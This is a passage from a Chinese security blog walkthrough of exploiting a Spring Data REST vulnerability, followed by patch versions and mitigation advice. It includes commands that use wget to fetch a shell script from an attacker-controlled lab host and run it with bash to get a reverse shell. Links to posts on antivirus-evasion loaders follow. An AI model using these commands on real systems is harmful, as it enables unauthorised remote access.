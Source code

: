 反弹shell：

写一个shell.sh文件，开启http服务：

![](https://gitee.com/fuli009/images/raw/master/public/20210903083112.png)image-20210829223228384![](https://gitee.com/fuli009/images/raw/master/public/20210903083113.png)image-20210829223331882

下载执行sh脚本：

    
    
    /usr/bin/wget -qO /tmp/shell.sh http://192.168.173.131/shell.sh  
    

![](https://gitee.com/fuli009/images/raw/master/public/20210903083114.png)image-20210829223703018![](https://gitee.com/fuli009/images/raw/master/public/20210903083115.png)image-20210829223713495![](https://gitee.com/fuli009/images/raw/master/public/20210903083116.png)image-20210829223749707

执行shell.sh

    
    
    /bin/bash /tmp/shell.sh  
    

![](https://gitee.com/fuli009/images/raw/master/public/20210903083117.png)image-20210829223919181

成功反弹。

#### 安全防护

  1. 受影响版本的用户应该应用以下缓解措施：

  * 2.0.x用户应该升级到2.0.6
  * 1.13.x用户应该升级到1.13.11
  * 旧版本应升级到受支持的分支

已解决此问题的发布版本包括：

  * Spring Data REST 2.6.11（Ingalls SR11）
  * Spring Data REST 3.0.6（Kay SR6）
  * Spring Boot 1.5.11
  * Spring Boot 2.0.1

  1. 使用Spring Security提供的身份验证和授权，限定特定访问。

对于该漏洞的底层原理分析可以看该文章：https://www.cnblogs.com/hac425/p/9656747.html

 **【往期推荐】**  

[【内网渗透】内网信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485796&idx=1&sn=8e78cb0c7779307b1ae4bd1aac47c1f1&chksm=ea37f63edd407f2838e730cd958be213f995b7020ce1c5f96109216d52fa4c86780f3f34c194&scene=21#wechat_redirect)  

[【内网渗透】域内信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485855&idx=1&sn=3730e1a1e851b299537db7f49050d483&chksm=ea37f6c5dd407fd353d848cbc5da09beee11bc41fb3482cc01d22cbc0bec7032a5e493a6bed7&scene=21#wechat_redirect)

[【超详细 | Python】CS免杀-Shellcode
Loader原理(python)](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486582&idx=1&sn=572fbe4a921366c009365c4a37f52836&chksm=ea37f32cdd407a3aea2d4c100fdc0a9941b78b3c5d6f46ba6f71e946f2c82b5118bf1829d2dc&scene=21#wechat_redirect)

[【超详细 | Python】CS免杀-
分离+混淆免杀思路](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486638&idx=1&sn=99ce07c365acec41b6c8da07692ffca9&chksm=ea37f3f4dd407ae28611d23b31c39ff1c8bc79762bfe2535f12d1b9d7a6991777b178a89b308&scene=21#wechat_redirect)  
